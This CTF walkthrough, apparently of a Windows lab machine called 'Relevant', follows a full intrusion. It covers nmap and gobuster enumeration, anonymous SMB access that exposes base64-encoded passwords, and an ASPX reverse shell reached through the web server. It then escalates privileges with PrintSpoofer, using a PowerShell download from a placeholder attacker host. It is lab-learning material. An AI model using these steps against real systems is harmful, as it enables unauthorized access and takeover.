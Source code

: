 ```yaml
---
title: "Relevant"
tags:
  - Medium
  - Windows
  - nmap
  - samba
  - Token Impersonation
  - PrintSpoofer
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Medium   |  |  10.10.72.53  |  |

---

### [ User Flag ]

We first start off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

![screenshot1](../assets/images/relevant/screenshot1.png)

From the results, we can see that the following ports are open: **80 (HTTP)**, **135 (RPC)**, **139 & 445 (Samba)** and **3389 (Microsoft Terminal Services)**

Let's first take a look at the HTTP website:

![screenshot2](../assets/images/relevant/screenshot2.png)

We have a basic Windows Server page.

I did some manual enumeration of the website but was unable to find anything of interest. I also tried running a `gobuster` directory scan on the website, but unfortunately Gobuster was unable to find any hidden directories.

Hitting a dead-end, I decided to move on to enumerating the Samba server.

To do so, we can use `smbclient` to list out the shares that are accessible on the server. This can be done with the `-L` tag:

```
smbclient -L 10.10.72.53
```

![screenshot4](../assets/images/relevant/screenshot4.png)

Nice! Looks like there are a few shares that we can potentially access. Since the **nt4wrksv** share seems the most interesting, let's try logging into it!

---

*Note: Alternatively, we can use nmap scripts to enumerate the Samba server. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

As anonymous login is enabled on the share, we are able to log into the nt4wrksv share without needing a password. 

The share contained a **passwords.txt** file:

![screenshot5](../assets/images/relevant/screenshot5.png)

This file contained user passwords that were base64-encoded. I went ahead and decoded them:

![screenshot6](../assets/images/relevant/screenshot6.png)

We get 2 sets of user credentials:

> Bob : !P@$$W0rD!123

> Bill : Juw4nnaM4n420696969!$$$

I tried to access the other Samba shares with these creds, but unfortunately they did not work.

I was stuck here for abit as I wasn't sure what these credentials could be used for. I decided to run a full `nmap` scan to see if I missed any open ports on the target machine.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*(The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild!)*

**Results:**

![screenshot7](../assets/images/relevant/screenshot7.png)

Oops, looks like I did miss some. Apart from the ports that we scanned earlier, there are now 3 new ports that were detected: **49663 (HTTP)**, **49667 (RPC)**, **49669 (RPC)**

What caught my attention was the HTTP server running on port 49663. Let's take a look:

![screenshot8](../assets/images/relevant/screenshot8.png)

This brings us to the same Windows Server page as before.

However, running a `gobuster` directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The /nt4wrksv entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory!*

*This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

![screenshot9](../assets/images/relevant/screenshot9.png)

As this directory has the same name as the Samba share that we accessed earlier, I assumed that it was actually bringing us to the share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

![screenshot10](../assets/images/relevant/screenshot10.png)

Sure enough, the contents of the 'passwords.txt' file in the SMB share was displayed! 

This is great as that means we can potentially obtain remote code execution by uploading a file into the share and accessing it via this web directory. With this, we can open up a reverse shell and gain a foothold into the target machine.

Using [Wappalyzer](https://www.wappalyzer.com/) on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**:

![screenshot11](../assets/images/relevant/screenshot11.png)

As such, we will have to upload an ASPX reverse shell. We'll use this [script](https://github.com/borjmz/aspx-reverse-shell).

Using `smbclient`, I uploaded the reverse shell onto the **nt4wrksv** share. This can be done with the `put` command:

![screenshot12](../assets/images/relevant/screenshot12.png)

Next, I opened up a netcat listener and opened the reverse shell by visiting **/nt4wrksv/shell.aspx** on the web server:

![screenshot13](../assets/images/relevant/screenshot13.png)

With that, the reverse shell was successfully opened and we're in!

There is a user called Bob on the machine. We can obtain the user flag from his desktop:

![screenshot14](../assets/images/relevant/screenshot14.png)

---

### [ Root Flag ]

Next, let's find a way to escalate our privileges. 

We first check out the privileges that are enabled on our current account. We do this with the `whoami /priv` command:

![screenshot15](../assets/images/relevant/screenshot15.png)

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege, we can use the [PrintSpoofer]((https://github.com/dievus/printspoofer)) tool to escalate our privileges.

---

*More information on how PrintSpoofer works can be found [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)*

---

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine:

```
powershell "Invoke-WebRequest -UseBasicParsing ATTACKER_IP/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges:

![screenshot16](../assets/images/relevant/screenshot16.png)

And we have successfully escalated our privileges! With that, we can obtain the root flag located on the Administrator's desktop:

![screenshot17](../assets/images/relevant/screenshot17.png)

